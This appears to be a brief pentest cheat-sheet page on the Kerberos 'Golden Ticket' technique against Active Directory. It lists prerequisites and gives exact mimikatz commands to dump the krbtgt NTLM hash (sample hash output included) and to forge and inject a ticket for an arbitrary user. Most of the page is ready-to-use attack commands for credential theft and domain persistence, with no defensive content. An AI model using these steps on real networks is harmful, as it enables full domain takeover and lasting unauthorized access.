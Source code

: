 ```yaml
---
title: Golden Ticket
date: M02-18-2023
author: i4
---
```

- Create a TGT with the credentials of the `krbtgt` user
- Allows persistence and arbitrary PAC entries
- `krbtgt` credentials get changed if the functional level is upgraded (from 2003 to 2008)
- Requires compromised DA or compromised Domain Controller

## Dumping krbtgt ntlm
```mimikatz
mimikatz # lsadump::lsa /patch

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : fc274a94b36874d2582918a103853fab
```

## Creating a golden ticket
- Does not require administrative permissions
- Can be done on a non-domain joined system
- Use `whoami /user` for the SID enumeration
```mimikatz
mimikatz # kerberos::golden /user:fake /domain:[domain] /sid:S-1-5-21-xxx-xxx-xxx /krbtgt:fc274a94b36874d2582918a103853fab /ptt
mimikatz # misc::cmd
```